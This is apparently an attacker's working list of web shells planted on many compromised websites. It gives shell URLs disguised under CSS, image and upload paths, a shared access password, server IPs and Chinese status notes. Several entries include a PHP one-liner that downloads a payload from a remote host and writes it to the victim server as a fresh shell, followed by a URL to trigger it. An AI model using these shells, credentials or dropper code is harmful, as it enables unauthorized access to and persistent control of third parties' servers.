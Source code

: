 http://123.57.11.49/template/default/fileinput/.github/m1.php |mmk123   http://123.57.11.49/config/httpd.php?d=up  已改






未检查的

http://bama.jnlg.com.cn/assets/css/skins/skins.php |mmk123 |  111.229.186.206 | 404
http://ziku.jnlg.com.cn/h5/js/rem.php |mmk123 |  111.229.186.206
https://42.51.41.208/runtime/config/4b42677b6c14022f2e21a2a92524fde.php |mmk123 
https://42.51.41.208/index_bk.php |mmk123 
https://www.honggutai.com/index_bk.php |mmk123 |  8.137.167.188


phpboot_dd

https://zhimazhihui.com/ |mmk123 |  81.68.249.222
http://www.loront.com/template/default/images/sms/mr1.php |mmk123 |  81.68.249.222
http://www.bengzhiyuan.com/1.php |mmk123 |  81.68.249.222
http://www.bengzhiyuan.cn/static/upload/image/20220724/mr1.php |mmk123 |  81.68.249.222
https://kangbanmeijia.com/template/default/bootstrap/css/2m.php |mmk123 |  81.68.249.222
https://gpzyjy.com/static/upload/image/20220909/2m.php |mmk123 |  8.141.57.49 | 禁止访问

http://www.zhengxin7.com/uploads/allimg/230306/1m.php |mmk123 |  61.160.192.97
代码更新：0608 ✅
http://www.zhengxin7.com/gywm/httpd.php
<?php file_put_contents("../data/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.zhengxin7.com/data/httpd.php?d=up

https://www.zhengxin6.com/uploads/allimg/230418/1m.php |mmk123 |  163.181.78.249
https://www.zhengxin123.net/uploads/20230404/1m.php |mmk123 |  61.160.192.102
https://www.zhengxin2.com/images/swfupload/plugins/12m.php |mmk123 |  61.160.192.100
http://www.zhengxin3.com/plus/img/face/32m.php |mmk123 |  61.160.192.100

https://dpjk.qxlcyjt.com/yCEjBQrapG.php |mmk123 |  47.97.25.132 | 404
http://xl.dzpc.net/m/images/32m.php |mmk123 |  47.96.84.204 | 连接不上

https://xr.xkji.cn/yuq/js/32m.php |mmk123 |  47.93.234.132
代码更新：0608 ✅
https://xr.xkji.cn/photo/httpd.php
<?php file_put_contents("../kz/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://xr.xkji.cn/kz/httpd.php?d=up

http://jobtool.ehongya.com/templates/default/index.php |mmk123 |  47.93.234.132
代码更新：0608 ✅
http://jobtool.ehongya.com/h5/httpd.php
<?php file_put_contents("../install/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://jobtool.ehongya.com/install/httpd.php?d=up
